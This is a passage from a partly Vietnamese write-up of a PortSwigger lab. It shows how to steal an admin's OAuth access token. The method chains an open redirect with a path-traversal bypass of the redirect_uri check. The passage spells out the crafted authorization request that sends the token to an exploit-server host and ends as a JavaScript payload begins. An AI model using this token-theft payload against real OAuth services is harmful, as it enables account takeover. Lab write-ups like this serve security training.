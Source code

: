 This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

Note
You cannot access the admin's API key by simply logging in to their account on the client application.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in via your own social media account using the following credentials: wiener:peter.
```
* Exploit:

Bắt request trên BurpSuite và thực hiện thao tác các bước lần lượt:
- Login vào tài khoản => Lần đầu thấy cần nhập username/password
- Logout khỏi tài khoản
- Login vào tài khoản => Từ lần thứ 2 trở đi không cần nhập thông tin username/password

Quan sát request trên Burp:
- Ở lần login thứ 2 trở đi thì Request đến `/auth?client_id=...` sẽ redirect trình duyệt của chúng ta đến link trong parametter `redirect_uri` kèm theo value  token của user (user đã login lần 1 trước đó)

<img width="460" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/2891e680-48ef-4096-9c21-7155490f580f">

- Ở link `/me`, sử dụng Token vừa nhận được sẽ nhận được response chứa thông tin api key của user:

<img width="461" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/9c129f69-a6ab-4683-86cd-425092defdf9">

- Thử nghiệm thanh đổi giá trị của parametter `redirect_uri` trong request 1 ta xác nhận thấy nếu thay đổi hostname hoặc đường dẫn uri không bắt đầu bằng `oauth-callback` thì request sẽ bị chặn.

- Như vậy không thể truyền thẳng URL độc hại trực tiếp luồn vào biến `redirect_uri` mà cần phải đi tìm cách khác. => Tính năng chuyển sang bài post kế tiếp có thể lợi dụng để truyền vào URL, cụ thể như sau:

<img width="494" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/a3b96115-7e75-46fd-a095-37027745b20c">

- Kết hợp lại ta có thể craft được payload như sau để bypass cơ chế check của biến `redirect_uri`:
`GET /auth?client_id=ubkeow5ujb9t28n9t7qdz&redirect_uri=https://0a2000840427abf8802e9955008900a1.web-security-academy.net/oauth-callback/../post/next?path=https%3A%2F%2Fexploit-0a6200800401abb4805a987e01680095.exploit-server.net%2Fexploit&response_type=token&nonce=1721753949&scope=openid%20profile%20email`

=> Đã có cách để redirect trình duyệt của victim đến chỗ khác, ngoài ra request redirect này sẽ có chứa giá trị của token ở sau dấu `#`. Ví dụ: `https://0a2000840427abf8802e9955008900a1.web-security-academy.net/oauth-callback/../post/next?path=https%3A%2F%2Fexploit-0a6200800401abb4805a987e01680095.exploit-server.net%2Fexploit#access_token=ndwGfvuYsDzBhk1CzXjRNoF60DyPWU2tuJxmT1Hd_7J&amp;expires_in=3600&amp;token_type=Bearer&amp;scope=openid%20profile%20email`.

- Trên exploit server, dùng payload như sau:

```javascript
<script>
    if (!document.location.hash) {
```
